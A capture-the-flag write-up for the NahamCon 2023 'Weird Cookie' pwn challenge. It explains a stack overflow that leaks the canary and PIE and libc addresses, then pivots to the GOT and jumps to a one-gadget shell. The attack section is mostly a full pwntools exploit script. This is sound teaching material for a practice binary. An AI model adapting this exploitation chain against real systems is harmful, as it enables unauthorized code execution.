 ```yaml
---
title: Weird Cookie  , NahamCon 2023
author: megachar0x01
date: 2023-06-19
categories: [Pwn, amd64, ctf]
---
```




## Description : 
it appears that there is a global variable that holds a canary value, and the same canary value is stored on the stack. It's important to note that these hardcoded canary values  vary if Address Space Layout Randomization (ASLR) is enabled.

The program allocates 40 bytes of memory on the stack, which are initialized to zero. However, when the program takes input from the user, it accepts 64 bytes of data and saves it in the 40-byte stack-allocated memory, causing a buffer overflow. Subsequently, the contents of this memory are printed to the screen as a string.

Afterward, the program accepts another input, which also leads to a buffer overflow. This buffer overflow allows the manipulation of the program's control flow, specifically the instruction pointer (RIP) and the base pointer (RBP).

The attack strategy involves leaking values from the stack by inspecting it. By overflowing  null byte '\x00' and using the `puts` function, we can print everything until the next null byte '\x00'. This allows us to leak values from memory, including the canary value and '_IO_2_1_stdout_'. These leaked values help us bypass canary and PIE (Position Independent Executable) protections.

In the subsequent buffer overflow, we overwrite the base pointer (RBP) with a Global Offset Table (GOT) address and the return instruction pointer (RIP) with the address of the main function plus an offset of 112. This enables us to leak the contents of the GOT, revealing addresses of functions in the libc library. We can then utilize the libc address plus the 0x10a2fc onegadget offset to gain a shell.



## Protections: 


<img src="https://i.imgur.com/9NNVGZK.png" alt="img_1">

## Vulnerable Code


<img src="https://i.imgur.com/NRNT04z.png" alt="img_2">



## Exploit

```python
#!/usr/bin/python3
from pwn import *
import struct

# context.terminal = ['tmux','splitw','-h']
os.environ['XDG_CACHE_HOME'] = '/tmp/'

context.log_level = 'error'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main+221
continue
continue
'''.format(**locals())

exe = './weird_cookie'
elf = context.binary = ELF(exe, checksec=False)
libc = elf.libc
libc_rop = ROP(libc, checksec=False)

io = start()

padd = 40

# Initial payload to trigger overflow
payload = b""
payload += b"A" * padd

io.sendafter(b"Do you think you can overflow me?\n", payload)

io.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")

# Leak the canary and PIE address
leak_raw = io.recvline().strip(b"\n")
leak_canary = u64(leak_raw[0:8])
leak_pie = u64(leak_raw[8:14] + b"\x00" * 2)

print(f"Leaked PIE value: {hex(leak_pie)}")
print(f"Leaked canary: {hex(leak_canary)}")

# Calculate the base address of the binary using the leaked PIE value
elf.address = leak_pie - elf.sym.__libc_csu_init

# Save the leaked canary value
canary = leak_canary

exe_rop = ROP(elf, checksec=False)

# Prepare the payload for the second stage of the attack
payload1 = b""
payload1 += b"A" * padd
payload1 += p64(canary)
payload1 += p64(elf.got.exit + 0x30 + 16 + 8)  # rsp = [rbp-0x30] # rbp (exit+16 = io_stdin)
payload1 += p64(elf.sym.main + 112)  # RIP

io.sendafter(b"Are you sure you overflowed it right? Try again.\n", payload1)

# Leak the address of exit from the GOT
leak_got_exit = u64(io.recvline().strip(b"\n") + b"\x00" * 2)

# Calculate the base address of libc using the leaked GOT address
libc.address = leak_got_exit - libc.sym._IO_2_1_stdout_

print(hex(leak_got_exit))
print(hex(libc.address + 0x4f2a5))

# Prepare the final payload for the third stage of the attack
payload1 = b""
payload1 += b"A" * 56
payload1 += p64(libc.address + 0x10a2fc)

io.sendafter(b"Are you sure you overflowed it right? Try again.\n", payload1)

# Switch to interactive mode to interact with the exploited binary
io.interactive()

```


Note: Due to time constraints, I decided not to pursue the exploit further as it didn't work on my system, although it worked successfully on a remote system.
